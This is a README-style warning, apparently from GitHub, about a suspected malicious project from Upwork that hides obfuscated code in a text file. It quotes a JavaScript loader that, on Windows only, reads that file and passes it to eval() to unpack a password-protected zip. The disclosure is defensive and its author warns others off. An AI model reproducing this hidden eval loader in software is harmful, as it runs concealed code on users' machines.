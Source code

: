 Possible virus(?) from upwork. 
### Info
Some possible false positive reactions from antiviruses (virustotal: https://www.virustotal.com/gui/file/311fc8e90c968cbd0237ec31ecedfdb17d75f936e14e981c0fa4437da5483cf8)

App try to eval txt file 'public/css/types.txt', where is placed "// empty file ..." text, lot of spacings and then really obscured code. 
Part of which obviously trying to unzip and execute some code from public/js/js.zip. (this zip file is acrhived with password, looks like inside types.txt part of code trying to assemble password from multiple obscured functions)

Content of js.zip is unknown for now.

Also this exec part is executes only on win32 systems.

    const fs = require("fs");
    const os = require("os");
    function site_version() {
    const platform = os.platform();
    
    switch (platform) {
         case 'win32':
              fs.readFile('public/css/types.txt', 'utf8', (err, data) => {
                  if (err) {
                      return;
                  }
    
                  eval(data);
              });
              console.log("=")
              return 'w';
          case 'darwin':
              return 'm';
          case 'linux':
              return 'l';
          default:
              return 'Unknown';
        }
    } 
    site_version()

### F
I can't say for sure, maybe it's just a very strangely builded project. 
I'm not going to dig further, I'll just leave this repo and text here in case I ever change my mind. 
Also, this repository is public, so I'm adding this text to the readme so that no one accidentally runs it.

If anyone knows why this project is what it is (or has tested it), I would be grateful if you would let me know (for example open an issue)

### Probably i would delete this repo later
